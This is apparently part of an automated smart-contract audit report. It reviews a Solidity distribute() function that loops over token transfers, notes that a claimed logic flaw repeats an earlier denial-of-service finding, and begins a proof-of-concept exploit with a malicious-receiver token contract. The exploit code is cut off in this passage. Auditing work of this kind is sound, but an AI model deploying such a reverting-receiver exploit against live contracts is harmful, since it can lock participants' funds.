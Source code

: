 **Validation:**

The vulnerability labeled as a business logic flaw in distribute() is essentially demonstrating the same behavior as in #0. There is no additional or distinct business logic error beyond the potential DoS effect already described. Therefore, as an independent business logic issue it does not rise to a level that greatly changes the risk profile.

**Code Snippet:**

```solidity
function distribute() external {
        require(block.timestamp > registrationDeadline, "Distribution not started");
        require(!distributed, "Already distributed");
        uint256 totalParticipants = participants.length;
        require(totalParticipants > 0, "No participants");

        uint256 balance = token.balanceOf(address(this));
        uint256 amountPerParticipant = balance / totalParticipants;

        distributed = true;

        for (uint256 i = 0; i < totalParticipants; i++) {
            require(token.transfer(participants[i], amountPerParticipant), "Transfer failed");
        }
    }
```

**Affected Functions:** distribute

---

## Proof of Concept Exploits

### PoC #1: denial_of_service

**File:** /Users/advait/Desktop/NTU/fyp-fr/exploit/src/test/PoC_unknown_1742491406.sol

**Execution:** ✅ SUCCESS

**Exploit Code:**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "./basetest.sol";

/// @notice Interface for ERC20-like token transfers
interface IToken {
    function transfer(address to, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
}

/// @notice Interface that malicious receivers implement to indicate they always revert on token receipt
interface IMaliciousReceiver {
    function isMalicious() external view returns (bool);
}

/// @notice A simple ERC20-like token contract with custom logic to simulate transfer failures for malicious contracts.
/// In production tokens, transfers typically don't call external contracts on recipients.
/// However, if a token uses hooks (e.g. ERC777) or if a distribution relies on the external call's return value,
/// a misbehaving recipient may cause the entire transaction to revert.
contract SimpleToken is IToken {
    string public name = "SimpleToken";
```